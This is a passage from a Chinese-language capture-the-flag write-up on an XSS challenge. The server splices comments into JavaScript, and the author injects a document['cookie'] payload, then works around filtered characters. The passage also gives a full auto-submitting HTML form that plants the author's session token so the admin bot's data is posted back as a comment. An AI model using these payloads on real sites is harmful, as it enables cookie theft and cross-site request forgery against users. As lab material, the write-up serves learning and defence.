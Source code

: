 ```
" + document["cookie"] +"
```

服务端会直接把用户输入拼接在 `你留下的评论：` 和 `");` 之间，于是可以插入自己的 js 语句。

![](img/image-20231103035509824.png)

但是这里过滤了一堆关键字符，而且 `()` 也给过滤了，不能闭合掉 `)` 也不能执行自己的命令，非常难受！！！

而且因为不能上外网，只能考虑利用自己的 session 把 bot 那边的信息 POST 评论的方式回带

先要访问 `/?token=114514%3AMiaoTonyxxx` 把自己的 cookie 设置上，然后 POST 回带，测试一下

```html
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <img src="http://web/?token=114514%3AMiaoTony" alt="">
    <form id="miaotony" action="http://web/result" method="post">
        <textarea name="comment" id="comment">meow//</textarea>
    </form>
    <script>
        window.onload = function () {
            document.forms["miaotony"].submit();
        };
    </script>
</body>
</html>
```

![](img/image-20231103035836679.png)
